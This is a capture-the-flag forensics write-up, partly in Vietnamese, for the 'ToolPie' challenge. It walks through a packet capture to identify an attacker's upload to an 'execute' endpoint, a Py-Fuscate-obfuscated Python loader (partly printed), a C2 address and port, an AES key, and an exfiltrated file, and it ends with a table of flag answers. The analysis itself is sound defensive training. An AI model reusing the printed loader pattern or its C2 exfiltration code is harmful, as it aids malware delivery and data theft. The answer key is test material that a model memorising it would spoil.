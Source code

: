 # ToolPie

### Detail:
In the bustling town of Eastmarsh, Garrick Stoneforge’s workshop site once stood as a pinnacle of enchanted lock and toolmaking. But dark whispers now speak of a breach by a clandestine faction, hinting that Garrick’s prized designs may have been stolen. Scattered digital remnants cling to the compromised site, awaiting those who dare unravel them. Unmask these cunning adversaries threatening the peace of Eldoria. Investigate the incident, gather evidence, and expose Malakar as the mastermind behind this attack.

```
1. What is the IP address responsible for compromising the website?
2. What is the name of the endpoint exploited by the attacker?
3. What is the name of the obfuscation tool used by the attacker?
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
5. What encryption key did the attacker use to secure the data?
6. What is the MD5 hash of the file exfiltrated by the attacker?
```

### Solution

#### Question 1: What is the IP address responsible for compromising the website? - Answer: `194.59.6.66`

Ta phân tích HTTP traffic thì ta thấy ở stream thứ 3, ta thấy có 1 code obfuscated Python đang được upload từ một endpoint.

![image](assets/1.png) 

---

#### Question 2: What is the name of the endpoint exploited by the attacker? - Answer: `execute`

Câu trả lời cũng ở câu 1 luôn, đó là `execute`

![image](assets/2.png)

---

#### Question 3: What is the name of the obfuscation tool used by the attacker? - Answer: `Py-Fuscate`

Câu này ta phải tiến hành phân tích code obfuscate vừa rồi.

```
{"script":"\ntry:\n\timport marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00
...................
\\xe0\\x00')))\nexcept KeyboardInterrupt:\n\texit()\n"}
```

Ta xử lý qua đoạn string (có 2 dấu '\\' liền nhau thì đổi thành còn 1) và sử dụng thêm module `dis` của Python. Đại loại nó sẽ giúp ta hiển thị và show bytecode của Python.

```python
import marshal,lzma,gzip,bz2,binascii,zlib
import dis

code =  b'BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff.....[DÀI QUÁ]........'
print(dis.dis(marshal.loads(bz2.decompress(code))))
```

![image](assets/3.png)

Ta nhìn xuống dưới thì có một đoạn có chứa tên của tool obfuscate `Py-Fuscate`

![image](assets/4.png)

---

#### Question 4. What is the IP address and port used by the malware to establish a connection with the C2 server? - Answer: `13.61.7.218:55155`

Câu này kéo xuống dưới ta cũng biết được luôn nha

![image](assets/5.png)

---

#### Question 5. What encryption key did the attacker use to secure the data? - Answer: `5UUfizsRsP7oOCAq`

Ta kéo xuống dòng data thứ `58, 59`. Nếu ta viết hẳn code của đoạn đó thì đoại loại nó là:

![image](assets/6.png)

```python
# Dòng 58:
enc_received = client2.recv(BUFFER_SIZE)
# Dòng 59:
received = dec_mes(enc_received, k).decode()
```

Đại loại nó client sẽ nhận thông tin và decrypt thông tin đó với key `k`. Ta đã xác định được key tên là `k` rồi thì tiếp tục kéo xuống dưới xem `k` nó trông như thế nào. Vào dòng 156 ta có thông tin của nó.

![image](assets/7.png) 

Ta phục hồi đc code ban đầu: `client.send(f"{user}{SEPARATOR}{k}".encode())`. Ta biết được `key` sẽ đứng sau cái gọi là `<SEPARATOR>` nên follow theo TCP stream ta tìm được giá trị của key đó.

![image](assets/8.png)

---

#### Question 6. What is the MD5 hash of the file exfiltrated by the attacker? - Answer: `8fde053c8e79cf7e03599d559f90b321`

Trong đoạn output sử dụng `dis` của ta có nói về việc sử dụng `AES`.

![image](assets/9.png)

Ta phục hồi được code ban đầu của nó: `cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())`. Đại loại nó sẽ dùng AES, có key và IV = key **????? (really?)**

Ta tiến hành extract data từ 13.61.7.218:55155 và decrypt thông tin.

```
tshark -r capture.pcap -Y "ip.addr == 13.61.7.218 && tcp.dstport == 55155" -T fields -e data.data > extract.data
```

Và t đút vô CyberChef (xóa một số thông tin thừa ở đầu và cuối của `extract.data` đi) và tiến hành decrypt AES và có được file `pdf`

![image](assets/10.png)

Save nó và check MD5 hash của file là có kết quả của câu 6

![image](assets/11.png)

---

### Final Answer


| Question | Flag |
|---|----|
| 1. What is the IP address responsible for compromising the website? | 194.59.6.66 | 
| 2. What is the name of the endpoint exploited by the attacker? | execute | 
| 3. What is the name of the obfuscation tool used by the attacker? | Py-Fuscate |
| 4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server? (Format: username:password) | `13.61.7.218:55155` |
| 5. What encryption key did the attacker use to secure the data? | 5UUfizsRsP7oOCAq |
| 6. What is the MD5 hash of the file exfiltrated by the attacker? | 8fde053c8e79cf7e03599d559f90b321 |
